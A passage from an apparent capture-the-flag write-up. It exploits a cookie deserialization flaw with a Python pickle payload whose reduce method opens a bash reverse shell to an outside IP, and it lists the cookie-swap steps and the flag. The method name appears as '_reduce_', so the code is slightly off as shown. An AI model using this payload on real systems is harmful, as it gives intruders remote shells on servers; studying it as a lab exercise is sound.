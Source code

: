 

From the name of the Challenge name we get the idea that we have to manipulated the cookie and from the text we got that there is deserialization vulnerability . so i tried to google it and find this **CVE-2022-34668** . And i get to know we can to this using pickle so i search how to escalate this in youtube and i got this video:
https://www.youtube.com/watch?v=qt15PnF8x-M

and from this i created my code 

```bash
##Define a class for malicious deserialization
class anti_pickle_serum(object):
    def _reduce_(self):
        # This is where the reverse shell command will be executed
        return subprocess.Popen, (["/bin/bash", "-c", "bash -i >& /dev/tcp/13.127.206.16/15704 0>&1"],)

##Serialize the payload and encode it
pickled = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
encoded_pickled = b64encode(pickled)

##Print the base64 encoded malicious payload
print(encoded_pickled.decode())
```


###   Steps of Exploitation
- Setup The Environment,
	- Start the `NGROK Server`
     - Start the `Ncat Server`
     - Prepare a `Reverse Shell Payload` to Put in Script
- Creating the Payload Using Above Script
 - Add Any Item in Cart
- Go to Cart Section
- Open up the Storage  Section Inspect
- `Replace the Malicious Cookie` and `Just Refresh` and  Got a Shell 🤯

![[image/havoc_image/31.png]]

```bash
CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
```


## Web 3
![[image/havoc_image/32.png]]

From this site we got two link one is form where we have to hash and second link of Unscramble this 742-AJM , here we also got and img let use steghide 

![[image/havoc_image/33.png]]


From this we got a python code:
